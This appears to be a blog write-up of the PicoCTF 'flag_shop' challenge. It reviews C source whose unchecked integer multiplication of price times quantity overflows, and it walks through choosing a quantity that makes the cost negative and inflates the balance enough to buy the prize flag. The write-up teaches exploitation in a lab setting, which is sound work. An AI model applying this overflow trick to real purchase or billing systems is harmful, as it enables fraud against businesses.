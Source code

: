 ```yaml
---
title: "PicoCTF: flag_shop"
date: 2024-11-20T14:26:45-06:00
draft: false
tags:
- PicoCTF
- Integer Overflow
- Code Review
---
```



## Description
flag_shop is a challenge on PicoCTF where an integer overflow vulnerability allows for the purchase of an 1337 flag where we otherwise would have insufficient funds.

## Walkthrough
### Functionality Testing
Connecting to the Pico server, we get a menu with several options.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

We can see our account balance.

```
 Enter a menu selection
1



 Balance: 1100 
```

We can also buy flags, of which there are two options. Options 1 costs 900 each, whereas option 2, the "1337 flag", costs 100000 each.

```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
```

```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
```

We are asked to buy a flag, presumably the 1337 flag, so let's get started.


### Code Review
The first thing that caught my eye was the usage the unsecure ```scanf()```. ```scanf()``` takes data from 
standard input and stores it to the address of a variable. However, it does not set a limit on the size of user input, meaning
 it is vulnerable to overflow. For this challenge, we do not need to exploit ```scanf()```, but it is still something worth 
 keeping in mind.

We also see that the ```store.c``` uses an integer to store the total cost of the flags in 
```total_cost```, meaning it can be interpreted as positive or negative. ```total_cost``` is derived by multiplying the cost of flag 1 
(900) with the number of flags our user wants to buy, so the number of flags we buy could flip the most significant bit of ```total_cost``` to 1, 
turning it into a negative number.

```C
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
```


### Exploitation
In two's complement, the most significant bit, or leftmost digit determines whether a number is positive (0) or negative (1). 
When our total cost ends up being greater than the maximum positive integer, the cost becomes negative if the most significant bit is 1.
Since the price of a flag is 900, we can overflow our cost by buying ```maximum_integer/price_per_flag``` flags. Of course, this value needs to be
rounded up (or +1 if the quotient is a whole number).

```
┌──(kali㉿kali)-[/tmp]
└─$ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import math
>>> math.ceil(2147483647/900)
2386093
>>> 2147483647/900
2386092.941111111
```

However, when I try to buy 2386093 flags, I am thrown deep into debt!

```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```

Let us figure out why this is happening. I've provided a script below to find the binary representation of an integer.

```C
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>


void getBin(int);

int main(int argc, char* argv[]) 
{
        if (argc != 2)
        {
                printf("Usage: %s <num>", argv[0]);
                exit(1);
        }

        getBin(atoi(argv[1]));

        return 0;
}

void getBin(int num)
{
        char bin[33];
        unsigned short index = 0;
        bin[index] = (num >> 31 & 1) + 48;

        for (int i = 1 << 30; i > 0; i >>= 1)
        {
                index++;
                num & i ? (bin[index] = '1') : (bin[index] = '0');
        }

        bin[32] = '\0';

        printf("Number: %d\n", num);
        printf("Binary: %s\n", bin);

        return;
}
```

Calculating our remaining funds, we get 2147483596.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 0-2386093*900  ))
Number: 2147483596
Binary: 01111111111111111111111111001100
```

However, we start with 1100 in our balance, not 0. If we recalculate our balance with that accounted for, we get -2147482600.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 1100-2386093*900  ))
Number: -2147482600
Binary: 10000000000000000000010000011000
```

The easiest way to fix this debacle would be to add 1100/900 when calculating the number of flags we need to buy since 
we will need to overflow an additional 1100 for flags that cost 900 each. 

```
>>> math.ceil(2147483647/900+1100/900)
2386095
```

And now we have 2147482896 in our account after the transaction, more than enough to buy the 1337 flag.

```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

```
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_<redacted>}
Welcome to the flag exchange
We sell flags
```